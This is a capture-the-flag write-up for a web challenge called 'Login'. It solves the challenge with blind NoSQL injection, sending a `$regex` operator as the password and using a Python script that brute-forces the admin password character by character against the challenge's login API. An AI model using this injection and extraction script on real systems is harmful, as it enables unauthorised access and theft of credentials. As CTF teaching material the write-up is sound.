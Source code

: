 Login
=

Our admin belives his app is secure, please prove him wrong.

### Website: https://login.ctf.teamquark.com/

### Author: Apoorva Pendse and Gourav Suram

### Files: [web_login.zip](./web_login.zip)

Solution
=

Looking at the source code, we dont see any particular way to login, so I looked up on google on how to login in such kind of questions. The suddenly, `blind nosqli` popped up in my mind.

I then made a bold assumption stating that `admin` will be the username and the flag with be the password. And this is where all lights became bright and everything made sense.

I quickly set the username to admin and password to `{"$regex":"^<flag>"}` where we can bruteforce each character. I then made a script to do that:

```py
import requests
import urllib3
import string
import urllib

flag = list("")
url = "https://login.ctf.teamquark.com/api/login"
headers = {'content-type': 'application/json'}

while True:
    for c in string.printable:
        print (f"trying : {''.join(flag) + c}")
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "admin"}, "password": {"$regex": "^%s" }}' % (''.join(flag) + c)
            r = requests.post(url, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Login Successful' in r.text:
                flag.append(c)
                break

```
